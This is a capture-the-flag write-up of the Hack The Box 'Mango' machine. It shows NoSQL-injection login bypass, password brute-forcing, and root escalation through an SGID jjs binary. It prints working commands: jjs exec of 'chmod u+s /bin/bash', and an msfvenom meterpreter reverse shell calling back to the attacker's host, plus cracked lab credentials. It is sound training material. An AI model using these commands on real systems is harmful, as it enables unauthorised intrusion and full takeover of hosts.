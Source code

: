 ```yaml
---
layout: single
title: "Exploiting MongoDB NoSQL Injection to Username:Password Enumeration & Java jjs SGID to Root Shell"
excerpt: "Linux box of medium difficulty. The early shell used MongoDB to brute the user's passwords using NoSQL bypass. To raise root privilege, it was enough for a system equipped with a permissive SUID."
date: 2020-04-17 00:22:00 -0000
classes: wide
header:
  teaser: /asset/htbwriteup/linux/mango/intro.PNG
  teaser_home_page: true
  icon: /assets/hackthebox.webp
categories: hackthebox
permalink: /htb/htbMango
tags: [mongodb, jjs, PrependSetuid, jjs bash SUID]

---
```


# HTB - Mango

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/intro.PNG "mango intro")

Linux box of medium difficulty. The early shell used MongoDB to brute the user's passwords using NoSQL bypass. To raise root privilege, it was enough for a system equipped with a permissive SUID.

---
## Recon
    $ nmap -Pn -sCV -p22,80,443 -oN nmap/Basic_10.10.10.162.nmap 10.10.10.162 
    
![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/1.png)

- From the nmap scan, there are 3 services, OpenSSH 7.6p1 and http Apache 2.4.29 on port 80 and also https Apache titled Mango | Search Base on port 443.

- As usual, we added 10.10.10.162 `staging-order.mango.htb` to our `/etc/hosts` file. It is a subdomain under `mango.htb`. We started to browse to port 443 which is a login page and we got a hint that it is likely `MongoDB` by guessing the box's name `Mango` XD.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/login.png)

- After googling, i found MongoDB injection from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection). After testing with BurpSuite, we can confirm that the login page is vulnerable to NoSQL injection as we get redirected to `home.php` after we bypassed the authentication page.

- There is a python script to bruteforce the login page that we found from [here](https://book.hacktricks.xyz/pentesting-web/nosql-injection#brute-force-login-usernames-and-passwords-from-post-login).

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/4.png)

- To use the script, we just need to modify the `url, Host and PHPSESSID` as below.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/5.png)

---
## Exploit
- run the script and we got 2 credentials for `admin` and `mango` users.
-		$ python brute.py
-	    [*] Found admin:t9KcS3>!0B#2 
		[*] Found mango:h3mXK8RhU~f{]f5H

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/6.png)

- Without a doubt, we managed to SSH into mango user. We try to login to admin user through SSH but it failed earlier.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/8.png)

### From mango to admin shell:
- We list all the users on the machine and got 2 users that have login shell which are admin and mango.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/9.png)

- mango user can't view the user.txt flag. However, we can `su` into admin and got the flag.
 
![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/10.png)

---
## Privilege escalation

### Reads or disclose files outside a restricted file system: 
- As usual, we will use [`LinEnum`](https://github.com/rebootuser/LinEnum) to enumerate for ways to escalate to `root`.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/11.png)

- LinEnum gave us interesting SGID file that is jjs. `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs`

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/12.png)

- By referring to [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/), it may be used to do privileged reads or disclose files outside a restricted file system. So, we can read root's files using this method.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/13.png)

- So, we need to point the file that need to be read and we got the `root.txt` flag. 

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/14.png)

### Get a root shell by making bash SUID using jjs:
- `exec('chmod u+s /bin/bash')`, where we get `euid as (root)`
- 

    admin@mango:/home/admin$ jjs
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
    0
    jjs> 
    admin@mango:/home/admin$ /bin/bash -p
    bash-4.4# id
    uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)

### Meterpreter shell with the `PrependSetuid` option to root shell:

-  Generate elf meterpreter and transfer our elf to victim machine.

		fesal@kali:~$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=4444 PrependSetuid=true -f elf -o rev

- On victim machine.


		admin@mango:/tmp$ chmod +x rev
		admin@mango:/tmp$ /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
		Warning: The jjs tool is planned to be removed from a future JDK release
		jjs> Java.type('java.lang.Runtime').getRuntime().exec('/tmp/rev').waitFor()

- On kali machine.

		Meterpreter session 1 opened (10.10.14.40:4444 -> 10.10.10.162:37425) at 2020-03-09 21:53:16 

		msf5 exploit(multi/handler) > sessions 1
		[*] Starting interaction with 1...

		meterpreter > getuid
		Server username: uid=0, gid=1001, euid=0, egid=1001
		meterpreter > shell
		Process 5656 created.
		Channel 1 created.
		id
		uid0(root) gid=1001(admin) groups=1001(admin)

That's great, now we are in root shell ---- :)
